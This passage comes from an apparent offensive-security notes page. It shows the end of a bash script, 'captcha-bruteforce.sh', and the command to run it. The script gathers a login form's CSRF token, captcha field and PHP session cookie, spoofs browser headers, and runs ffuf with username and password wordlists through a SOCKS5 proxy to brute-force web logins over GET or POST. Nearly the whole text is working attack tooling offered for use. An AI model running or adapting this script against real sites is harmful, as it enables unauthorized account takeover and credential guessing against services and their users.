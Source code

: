 ```bash
        CSRF_VALUE="$VALUE"
        break
    fi
done <<< "$HIDDEN_INPUTS"

# Prepare POST Data
DATA="${USERNAME_FIELD}=FUZZ1&${PASSWORD_FIELD}=FUZZ2&${CAPTCHA}"
[ -n "$CSRF_FIELD" ] && [ -n "$CSRF_VALUE" ] && DATA="${CSRF_FIELD}=${CSRF_VALUE}&${DATA}"

COOKIES=$(curl -s -I "$URL" | grep -i '^Set-Cookie:' | sed -E 's/^Set-Cookie: //I' | cut -d';' -f1 | grep -i 'PHPSESSID')

HEADERS=(
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0"
  -H "Accept-Language: en-US,fa-IR;q=0.5"
  -H "Accept-Encoding: gzip, deflate"
  -H "Content-Type: application/x-www-form-urlencoded"
  -H "Origin: $URL"
  -H "Sec-GPC: 1"
  -H "Connection: keep-alive"
  -H "Referer: $LOGIN"
  -H "Cookie: $COOKIES"
  -H "Upgrade-Insecure-Requests: 1"
  -H "Priority: u=0, i"
)

# Run FFUF
if [[ "$METHOD" == "get" ]]; then
    FFUF_URL="${FULL_ACTION}?${DATA}&${CAPTCHA}"
    ffuf -u "$FFUF_URL" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -x "socks5://127.0.0.1:16379" \
         -X GET \
         -ac -c -r -mc 200 \
         "${HEADERS[@]}"
else
    ffuf -u "$FULL_ACTION" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -x "socks5://127.0.0.1:16379" \
         -X POST -d "$DATA" \
         -ac -c -r -mc 200 \
         "${HEADERS[@]}"
fi
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x captcha-bruteforce.sh;sudo ./captcha-bruteforce.sh $WEBSITE
```
